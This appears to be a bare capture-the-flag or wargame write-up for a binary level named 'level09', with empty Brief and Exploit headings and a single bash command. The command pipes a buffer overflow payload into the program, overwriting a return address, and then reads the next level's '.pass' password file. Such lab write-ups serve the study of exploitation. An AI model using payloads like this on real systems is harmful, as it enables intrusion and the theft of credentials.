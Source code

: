 ## Brief

## Exploit

## Commands
 
```bash
(python -c "print('\xff'*41)"; python -c "print('A'*200 + '\x8c\x48\x55\x55\x55\x55\x00\x00')"; echo "cat /home/users/end/.pass") | ./level09
```